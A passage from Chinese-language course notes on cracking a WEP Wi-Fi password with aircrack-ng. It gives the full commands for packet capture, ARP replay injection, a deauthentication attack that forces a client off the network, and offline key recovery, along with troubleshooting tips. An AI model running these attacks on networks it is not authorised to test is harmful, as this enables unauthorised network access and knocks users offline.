 ```
airodump-ng wlan0mon -c 1 --ivs -w /root/wifi/bk01/WEP --bssid D8:24:BD:79:18:0B
-c:信道
--ivs：初始化向量
-w:输出抓包文件
--bssid:指定wifi进行抓包
```

### 6.手工创建客户端连接

```
设备连接wifi
```

### 7.进行ARP注入攻击

arp重放攻击，通过模拟客户端发送ARP请求，获取AP的响应报文，通过AP报文获取ivs初始化向量

```
aireplay-ng -3 -b D8:24:BD:79:18:0B -h 18:CC:18:C5:D5:64 wlan0mon
-3:arpreplay：arp重放攻击
-b:bssid AP的mac地址
-h:客户端的mac地址
```

遇到这个错误时，重新连接wifi会一直报【无法连接到该wifi】，这时候，需要ctrl+C停掉arp重放攻击，然后重新在发起一个新的arp重放攻击，在连接wifi就ok了

![image-20211117110615154](https://img.gyxnb.top/img/image-20211117110615154.png)

### 8.使用Deautenticate攻击模式

使已经连接的合法客户端强制断开与路由端的连接，使其重新连接。在重新连接过程中获得验证数据包，从而产生有效 ARP request。（也不一定能成功，不成功多试几次）

```
aireplay-ng -0 5 -a D8:24:BD:79:18:0B -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

### 9.手动连接AP

等待Frame到5-10万时，就可以尝试破解了

![image-20211116164029929](https://img.gyxnb.top/img/image-20211116164029929.png)

### 10.破解WIFI，获取WEP密码

```
aircrack-ng /root/wifi/bk01/WEP-01.ivs
```

遇到这种说明ivs样本不够，按ctrl+c退出，在等一会重新执行破解命令就可以。也可以在这个界面保持不动，当ivs达到5000时，他会自动重新破解



![image-20211117105203267](https://img.gyxnb.top/img/image-20211117105203267.png)

ivs样本足够时，很快就能破解出来了

![image-20211116165048843](https://img.gyxnb.top/img/image-20211116165048843.png)

## 8.课程小结

参考：课后笔记

